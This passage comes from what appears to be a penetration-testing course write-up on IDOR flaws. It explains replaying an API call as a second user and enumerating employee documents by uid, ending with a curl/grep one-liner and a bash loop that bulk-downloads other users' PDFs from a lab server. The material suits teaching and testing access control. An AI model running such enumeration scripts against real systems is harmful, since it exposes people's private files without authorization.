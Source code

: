 ```json
{
  "attributes" : 
    {
      "type" : "salary",
      "url" : "/services/data/salaries/users/1"
    },
  "Id" : "1",
  "Name" : "User1"

}
```

The second user may not have all of these API parameters to replicate the call and should not be able to make the same call as `User1`. However, with these details at hand, we can try repeating the same API call while logged in as `User2` to see if the web application returns anything. Such cases may work if the web application only requires a valid logged-in session to make the API call but has no access control on the back-end to compare the caller's session with the data being called.

<u>Mass IDOR Enumeration</u>:
We can try manually accessing other employee documents with `uid=3`, `uid=4`, and so on. However, manually accessing files is not efficient in a real work environment with hundreds or thousands of employees. So, we can either use a tool like `Burp Intruder` or `ZAP Fuzzer` to retrieve all files or write a small bash script to download all files.

In the following example we find for `uid=1` the following values:
```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

So:
```bash
peluqqi@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

And we can automatize this:
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```
